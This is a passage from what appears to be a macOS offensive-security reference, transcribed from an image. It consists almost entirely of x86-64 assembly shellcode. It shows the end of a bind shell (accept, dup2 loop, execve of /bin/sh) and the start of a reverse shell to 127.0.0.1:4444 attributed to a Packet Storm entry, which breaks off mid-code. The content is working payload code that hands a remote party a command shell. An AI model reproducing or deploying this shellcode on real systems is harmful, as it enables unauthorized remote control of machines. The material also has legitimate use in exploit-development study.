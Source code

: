 ```
    ; accept(host_sockid, 0, 0)
    xor  rsi, rsi
    xor  rdx, rdx
    mov  rax, r8
    mov  al, 0x1e
    syscall

    mov rdi, rax
    mov sil, 0x3

dup2:
    ; dup2(client_sockid, 2)
    ;   -> dup2(client_sockid, 1)
    ;   -> dup2(client_sockid, 0)
    mov  rax, r8
    mov  al, 0x5a
    sub  sil, 1
    syscall
    test rsi, rsi
    jne  dup2

    ; execve("//bin/sh", 0, 0)
    push rsi
    mov  rdi, 0x68732f6e69622f2f
    push rdi
    push rsp
    pop  rdi
    mov  rax, r8
    mov  al, 0x3b
    syscall
```
```
#### Reverse Shell

Reverse shell from [[https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html|https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html]]. Reverse shell to **127.0.0.1:4444**

```armasm
section .text
global _main
_main:
    ; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
    xor  rdi, rdi
    mul  rdi
    mov  dil, 0x2
    xor  rsi, rsi
    mov  sil, 0x1
    mov  al, 0x2
    ror  rax, 0x28
    mov  r8, rax
    mov  al, 0x61
    syscall

    ; struct sockaddr_in {
    ;         __uint8_t       sin_len;
    ;         sa_family_t     sin_family;
    ;         in_port_t       sin_port;
    ;         struct  in_addr sin_addr;
    ;         char            sin_zero[8];
    ; };
    mov  rsi, 0xfeffff80a3eefdf0
    neg  rsi
```